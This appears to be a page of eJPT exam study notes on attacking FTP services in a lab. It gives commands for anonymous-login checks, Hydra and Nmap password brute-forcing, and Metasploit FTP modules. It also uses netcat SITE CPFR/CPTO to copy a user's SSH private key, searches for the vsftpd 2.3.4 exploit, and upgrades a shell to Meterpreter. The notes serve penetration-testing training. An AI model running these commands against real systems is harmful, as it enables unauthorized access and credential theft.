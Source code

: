 ## FTP - p21

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

We can verify if the anonymous login is enabled by using this Nmap command.
```
nmap 10.10.10.1 -p 21 —script ftp-anon
```


An example of a brute-force attack on an FTP port with Hydra.
```
hydra -L listausername.txt -P listapassword.txt 10.10.10.1 ftp
```
An example of a brute-force attack on an FTP port with Nmap.
```
nmap 10.10.10.1 —script ftp-brute —script-args userdb=listausername.txt -p 21
```
We can connect to the FTP service using username and password by executing this command: 
```
ftp 10.10.10.1
```
Netcat can be used to move files to and from a target machine through the ftp channel.
```
nc 10.10.10.1 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

### METASPLOIT
```
type:auxiliary portscanner
type:auxiliary ftp_version
type:auxiliary name:ftp_login
type:auxiliary name:ftp anonymous
```

### Linux - Exploiting FTP Server (VSFTPD)

vsftpd version 2.3.4 is a FTP server version that gained notoriety for its vulnerability.
```
msfconsole
search vsftpd
```
Once we obtained access to the target machine, we can use this Metasploit module to elevate the normal shell to a Meterpreter one.
```
use post/multi/manage/shell_to_meterpreter
```

